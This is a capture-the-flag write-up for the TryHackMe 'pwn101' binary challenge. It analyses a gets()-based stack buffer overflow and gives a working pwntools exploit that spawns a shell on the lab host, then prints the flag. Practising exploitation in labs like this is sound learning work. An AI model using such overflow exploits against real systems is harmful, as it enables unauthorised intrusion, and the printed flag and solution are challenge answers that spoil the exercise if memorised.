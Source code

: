 # Challenge Name : pwn101

category : pwn

clue : This should give you a start: 'AAAAAAAAAAA'

# Approach

## File Protection

```
checksec --file=pwn101-1644307211706.pwn101

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE

Full RELRO      No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   72 Symbols        No    0      1pwn101-1644307211706.pwn101
```

This file has no Canary enable.NX(Non Executable) is enable which is mean we cannot run shell code .PIE(Position-Independant Executable) is enable : change addresss every execution.

## File Analysis with cutter
Lets open up with cutter to see the code.

```
Cutter-v2.3.4-Linux-x86_64.AppImage pwn101-1644307211706.pwn101&
```
Let's take a look at main function.
we can see there are two variable

```
; var char *s @ stack - 0x48
; var uint64_t var_ch @ stack - 0xc
```

we can see gets function is used. When we try to look up at the man page for gets

```
0x000008d5      5 e8f6fdffff             call    gets ; sym.imp.gets 
```
```
 man gets 
```
```
BUGS
       Never  use  gets().   Because  it  is impossible to tell without knowing the data in advance how many characters
       gets() will read, and because gets() will continue to store characters past the end of the  buffer,  it  is  ex‐
       tremely dangerous to use.  It has been used to break computer security.  Use fgets() instead
```

we can see that using this get function we can overflow our buffer

## Buffer Overflow

Our objective  is to overflow the buffer till it reach rbp - 4 and change it value to not equal 0x8f9

```
0x000008da      7 817dfc39050000         cmp     dword [rbp - 4], data.00000539 ; 0x539 ; compare two operands
0x000008e1      2 7516                   jne     0x8f9 ; jump short if not equal/not zero (zf=0)
```
So that is can jump to this code of block which has  call system which will open up the shell.
```
0x000008f9      7 488d3d18030000         lea     rdi, [rip + str.Thanks__Here_s_a_small_gift_for_you__3] ; 0xc18 ; load effective address; const char *s
0x00000900      5 e8abfdffff             call    puts ; sym.imp.puts ; calls a subroutine, push eip into the stack (esp) ; int puts(const char *s)
0x00000905      7 488d3d33030000         lea     rdi, [rip + str.bin_sh] ; 0xc3f ; load effective address; const char *string
0x0000090c      5 e8affdffff             call    system ; sym.imp.system ;
```

## Solution
```
0x000008c9      4 488d45c0               lea     rax, [rbp - 0x40] ; load effective address
0x000008cd      3 4889c7                 mov     rdi, rax ; moves data from src to dst; char *s
0x000008d0      5 b800000000             mov     eax, 0 ; moves data from src to dst
0x000008d5      5 e8f6fdffff             call    gets ; sym.imp.gets ; 
```

We have to remember that our write will go from lower to higher address.
from this we can see that buffer start at [rbp - 0x40] or stack - 48 . And the variable we want to rewrite is at rbp - 4 . Note that stack = rbp + 8.

![alt text](images\pwn101.png)

## Writing python code

writing `exploit.py` 
```
from pwn import *

context.binary = binary = "./pwn101-1644307211706.pwn101"

payload = b"A"*((0x40-0x4) + 1)

p = process()
p.recv()
p.sendline(payload)
p.interactive()
```

``` 
python3 exploit.py
```

and we get the shell

Lets do this remotely by first change the code a bit.

```
from pwn import *

context.binary = binary = "./pwn101-1644307211706.pwn101"

payload = b"A"*((0x40-0x4) + 1)

#p = process()
p = remote("10.10.246.99",9001)
p.recv()
p.sendline(payload)
p.interactive()
```
```
python3 exploit.py
[*] '/home/kali/TryHackMe/pwn101/pwn101/pwn101-1644307211706.pwn101'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 10.10.246.99 on port 9001: Done
[*] Switching to interactive mode

Hello!, I am going to shopping.
My mom told me to buy some ingredients.
Ummm.. But I have low memory capacity, So I forgot most of them.
Anyway, she is preparing Briyani for lunch, Can you help me to buy those items :D

Type the required ingredients to make briyani: 
Thanks, Here's a small gift for you <3
```
now we can accesss the shell . Lets check the list of file and read the flag.

```
$ ls
flag.txt
pwn101
pwn101.c
$ cat flag.txt
THM{7h4t's_4n_3zy_oveRflowwwww}
```
